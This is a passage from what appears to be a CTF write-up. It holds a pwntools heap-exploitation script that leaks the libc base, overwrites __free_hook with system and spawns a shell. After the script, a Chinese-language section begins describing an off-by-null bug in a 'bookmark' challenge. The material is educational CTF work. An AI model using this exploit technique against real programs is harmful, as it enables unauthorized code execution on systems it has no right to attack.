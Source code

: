 ```python
add(0x38,'2') #2
add(0xd8+0x20,'6')
#add(0x8,'4')
#debug()
dele(1)
dele(3)
#debug()
add(0x88,'1')
show(2)
libcbase = u64(io.recv(6).ljust(8,'\x00')) - 3951480
success('libcbase : '+hex(libcbase))
#fakechunk = libcbase + libc.symbols['__malloc_hook'] - 0x23
libcrealloc = libcbase + libc.symbols['__libc_realloc']
freehook = libcbase + libc.symbols['__free_hook']
fakechunk = libcbase + 3951445
faketop = freehook - 0xb58

add(0x38,'3')
add(0x38,'7')
add(0x38,'8')
add(0x138+0x60,'9')
add(0x70,'10')
add(0x8,'11')
add(0x8,'12')
add(0x8,'13')
add(0x8,'14')
add(0x8,'15')
add(0x8,'16')
add(0x8,'17')
add(0x8,'18')
add(0x8,'19')

add(0x58,'/bin/sh;'*2+'/bin/sh  ||     '+p64(libcbase + libc.sym['__free_hook']))


bye(p64(libcbase+libc.sym['system']))
io.interactive()
```



---

# 第二天



## bookmark

edit功能处存在一个很奇怪的off-by-null.当edit第一个chunk时输入的url长度为16时，有几率会将下一个chunk的指针清零。也有几率将下一个chunk指针的低一字节覆盖为`\x00`，如下三图分别是`正常情况`，`全部清零`，`off-by-null`(很玄学)
